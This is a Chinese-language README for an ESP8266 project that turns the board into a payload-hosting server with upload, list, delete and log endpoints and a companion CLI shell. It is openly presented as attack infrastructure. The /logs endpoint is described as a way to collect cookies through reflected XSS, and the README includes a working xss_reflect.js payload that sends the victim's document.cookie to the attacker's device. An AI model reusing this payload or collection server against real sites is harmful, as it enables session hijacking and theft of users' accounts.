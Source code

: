 # ESP8266-remote-payloads

### esp8266闪存文件应用

[详见太极创客](https://www.bilibili.com/video/BV1L7411c7jw?p=8)

### 使用的esp8266模块：

其他esp8266模块或开发板应该也行，只要有flash和WebServer库即可。

![esp8266.jpg](./img/esp8266.jpg)

### /index.html页面：

![/index.html](./img/index.html.png)

### /upload.html页面：

上传的文件将被存储在“/payloads/”根目录下。

![/upload.html](./img/upload.html.png)

### /delete.html页面：

只需要输入文件名如“logs”即可删除“/payloads/”+文件名如“/payloads/logs”文件，文件名不能包含“..”！

![/delete.html](./img/delete.html.png)

### /list操作：

列出/payloads/根目录下的所有文件夹和文件。

![/list](./img/list.png)

### /logs操作：

参数（GET或POST）将会被追加在/payloads/logs文件中，用于反射型XSS漏洞获取Cookie等。

xss_reflect.js举例：

```js
//通过指定的名称'img'创建img元素
var img = document.createElement('img');
img.width = 0;
img.height = 0;

//将img元素的src属性指向脚本文件xss_reflect.php
//将cookie信息的字符串作为URI组件进行编码，然后用ck参数传递
img.src = 'http://192.168.1.103/logs?cookie='+encodeURIComponent(document.cookie);
//将192.168.1.103换成你esp8266服务器的地址
```

# ESP8266-remote-payloads-cli

分为两个文件：

- remote_payloads_cli.ino
- remote_payloads_cli.py

其中remote_payloads_cli.ino在上传到esp8266之前，需要配置好用户名、密码和wifi基本信息（当然，你也可以修改端口等信息，只要你清楚自己在做什么就行），如下

![config.png](./img/config.png)

上传完成之后即可用remote_payload_cli.py连接（可被重命名，记得赋予可执行权限），以下为`remote_payload_cli.py -h`的输出内容：

```
usage: remote_payloads_cli.py [-h][-r <url:post>][-u <username>][-p <password>]
description:
    remotely connect to your esp8266 standby with a fake shell.
shell commands:
    Command         Description                     Example
    help            show helpful information        help
    ls              list dir                        ls /payloads
    up              upload local file to esp8266    up ~/Desktop/something.js /payloads/other.js
    cat             show content of a file          cat /payloads/logs
    rm              remove file or dir              (file)rm /payloads/logs
                                                    (dir)rm /payloads/
```

示例：

![example.png](./img/example.png)

也可以如下方式连接（password都是没有回显的）：

![example-1.png](./img/example-1.png)

需要注意的几点：

- 该cli连接方式其实是HTTP连接（命令大部分是POST请求），但不用担心密码泄漏问题（数据和cookie会被中间人劫持，毕竟不是HTTPS协议），其中加密逻辑请各位大佬看看，如若不妥，还请大佬能够指出不当之处！
- 同一个esp8266只允许一个客户端接入（你也可以修改，但比较麻烦），即每次只有一个cookie有效，使用`exit`命令‘正常’结束会话后，cookie当即失效
- url格式为"http://[ip|domain]:port"，末尾**没有**"/"！若端口为80端口，则可忽略
- `rm /filePath/fileName`将删除filePath下fileName文件，而`rm /filePath/`将删除**整个filePath目录及目录下所有文件**！`rm /`则相当于清空内存
- 向`http://[ip|domain]:port/logs`发送的请求，将会被esp8266记录下来，默认追加在`/payloads/logs`文件，这可用于反射型XSS漏洞获取cookie





